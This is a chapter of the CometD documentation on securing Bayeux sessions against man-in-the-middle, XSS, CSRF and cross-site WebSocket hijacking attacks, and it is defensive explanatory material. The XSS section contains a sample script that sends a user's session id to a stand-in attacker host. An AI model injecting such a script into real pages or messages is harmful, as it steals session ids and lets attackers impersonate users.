 
[[_security]]
== Security

This session discusses the security features of the Bayeux Protocol and the relationship with common attacks and how you can configure CometD to tighten your application.

=== Security of the CometD session id

The Bayeux Protocol identifies a particular session (formerly known as "client") via a session id token, carried in Bayeux messages by the `clientId` field.
The `clientId` field value (i.e. the session id) is generated by the server when the client sends the handshake request message, and sent back to the client in the handshake response message (see xref:_bayeux_meta_handshake[the Bayeux Protocol handshake]).
The client then sends the `clientId` field in every subsequent message to the server, until disconnection.

The session id is generated using a strong random number generator, and as such it is not guessable by an evil third party.
An evil user that knows its own session id cannot guess the session id of another user by just looking at its own session id.

While the non-guessability of the session id is a good starting point, it is typically not enough, so read on.

=== Security against man-in-the-middle attacks

An evil user may be in the position to observe Bayeux Protocol traffic, as it is the case for a man-in-the-middle.

The typical solution in this case is to encrypt the traffic between the client and the server using TLS.
In this way, all the traffic between the client and the server is encrypted end-to-end and a man-in-the-middle cannot look or otherwise retrieve someone else's session id.

[[_security_xss]]
=== Security against Cross-Site Scripting (XSS) attacks

A https://owasp.org/www-community/attacks/xss[cross-site scripting attack] is a particularly important vulnerability of web applications.

A typical example of XSS is the following:

Evil user Bob connects to a chat service that uses CometD.
There, he finds Alice, another user.
Bob sends an evil chat message text to Alice where the text is the following:

[source,html]
----
<script type="text/javascript">
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://evilbob.com?stolen=" + $.cometd.getClientId());
xhr.send();
</script>
----

As you can see, the script accesses the CometD's session id (via `$.cometd.getClientId()`).

[NOTE]
====
Removing the method `getClientId()` would not solve the issue, because the evil script could access the session id in other ways.
For example, by registering an extension, or by otherwise watching Bayeux messages that come and go for the normal functioning of the application, or by quickly disconnecting and reconnecting the session, etc.
====

Bob sends that evil message, which reaches the CometD server and gets routed to Alice.
When it arrives on Alice's browser, that script may be run by the browser if the application is XSS vulnerable.

If the script runs, Bob would be able to steal Alice's session id, send it to his server `evilbob.com`, where Bob would be able to access it.

[IMPORTANT]
====
If your web application is XSS vulnerable, an attacker can do a lot more damage than just stealing a CometD session id, so it is of paramount importance that your web application sanitizes data received from unknown sources such as other users chat messages.
====

If Bob has stolen Alice's session id, he could craft a Bayeux message with Alice's session id and send it from his computer, and thereby could impersonate Alice.

CometD protects from impersonations due to stolen session ids in different ways, depending on the type of transport used to carry Bayeux messages.

For transports based on HTTP (`long-polling` and `callback-polling`), CometD sends a HTTP cookie with the handshake response, marked as `HttpOnly`, called `BAYEUX_BROWSER` (see xref:_java_server_configuration[]).
The CometD implementation, on the server, maps this cookie to a legit session id during the processing of the handshake request message.
For every subsequent message, the browser will send the `BAYEUX_BROWSER` cookie to the server and the CometD implementation will retrieve the session id from legit sessions that have been mapped to the cookie, rather than from the message (where it could have been altered).

Bob could craft a message with Alice's session id, but the `BAYEUX_BROWSER` cookie that he will send along with the tampered message will be his, not Alice's.
The CometD implementation will detect this attack and ask Bob to re-handshake.

If the crafted message does not have any cookie, CometD will ask Bob to re-handshake.

For transports based on WebSocket (`websocket`), CometD trusts the particular connection that has been established during the handshake.
The session id is associated to that connection and when a WebSocket message arrives on that connection, and CometD retrieves the session id from the association with the connection, rather than from the message (where it could have been altered).

When the connection is closed, for example for a network failure, CometD attempts to open another connection.
If the reconnection happens within a short period of time (typically less than the `maxInterval` configured on the server), then CometD will try to send messages on the new connection without re-handshaking, but since it's a new connection that did not process a handshake message, it will not have a session id associated.

At this point, CometD could ask the client to re-handshake (which involves some round-trips to be completed, possibly slowing further down the communication in case of faulty networks), or it could trust the session id from the message (which would yield faster reconnections, albeit less secure if the session id is stolen).
This is controlled by the `requireHandshakePerConnection` parameter, see xref:_java_server_configuration[].

[[_security_csrf]]
=== Security against Cross Site Request Forgery (CSRF) attacks

A https://owasp.org/www-community/attacks/csrf[cross site request forgery attack] is a particularly important vulnerability of web applications.

A typical example of CSRF is the following:

Evil user Bob connects to the chat service at `cometd-chat.com` using CometD.
There, he finds Alice, another user.
Bob sends an evil chat message text to Alice where the text is the following:

----
Look at this: https://evilbob.com/cometd
----

Alice clicks on the link, her browser opens a new tab to `+https://evilbob.com/cometd+` and an entertaining HTML page containing a script is downloaded to Alice's browser.

While Alice is looking at Bob's entertaining page, her browser runs an evil script, which may perform actions on behalf of Alice on the chat service that uses CometD.

For example, Bob could use xref:_security_xss[XSS] to steal Alice's session id and then craft and send evil messages to the chat service _from Alice's browser_.
Alice's browser will send the existing Alice's `BAYEUX_BROWSER` cookie along with the evil messages, and to the server the evil messages will be indistinguishable from legit messages sent by Alice, because they will carry her `BAYEUX_BROWSER` cookie and her stolen session id.

CometD does not automatically protects against CSRF attacks, but these are easily counterfeit by configuring the cross-origin filter as explained in xref:_java_server_configuration_advanced[this section].

Alice's legit messages are sent by a script downloaded from the chat service, and therefore will have the following HTTP header:

----
Origin: https://cometd-chat.com
----

Conversely, Bob's evil script is downloaded from `+https://evilbob.com+` and his evil messages will have the following HTTP header:

----
Origin: https://evilbob.com
----

The application at `cometd-chat.com` can install the cross-origin filter and configure it to allow requests only from the `cometd-chat.com` origin, effectively blocking Bob's CSRF attack.
This works because browsers are required to perform a _preflight_ request before sending a HTTP request to a different target origin.
The preflight request will be intercepted by the cross-origin filter and denied.
The unsuccessful preflight response instructs the browser that the script cannot perform any request to that target origin, and the browser will block the script from making requests to the target domain.

[[_security_cswsh]]
=== Security against Cross-Site WebSocket Hijacking (CSWSH) attacks

Cross-Site WebSocket Hijacking (CSWSH) is a variant of xref:_security_csrf[Cross-Site Request Forgery] but for the WebSocket protocol.

Similarly to CSRF, Bob tricks Alice to look at a page at `+https://evilbob.com/cometd+` that downloads an evil script that opens a WebSocket connection to `+https://cometd-chat.com+` _from Alice's browser_.

A WebSocket connection sends an initial HTTP request to the server.
This initial HTTP request, triggered by Bob's evil script running in Alice's browser, looks like this:

----
GET /cometd HTTP/1.1
Upgrade: websocket
...
Cookie: BAYEUX_BROWSER=...; JSESSIONID=...
...
Origin: https://evilbob.com
----

The initial HTTP request will have Alice's cookies (and possibly Alice's authentication headers), including the CometD cookie and the HTTP session cookie.
However, it will have `+Origin: https://evilbob.com+` and not the expected `+Origin: https://cometd-chat.com+`.

As with the CSRF attack, the application at `cometd-chat.com` can install the cross-origin filter and configure it to allow requests only from the `cometd-chat.com` origin, effectively blocking Bob's CSWSH attack.

In this case, the cross-origin filter must be installed _before_ the WebSocket upgrade mechanism takes place, or the WebSocket upgrade mechanism must have a way to test against a configured list of allowed origins and reject the WebSocket connection attempt if the origin is not allowed.
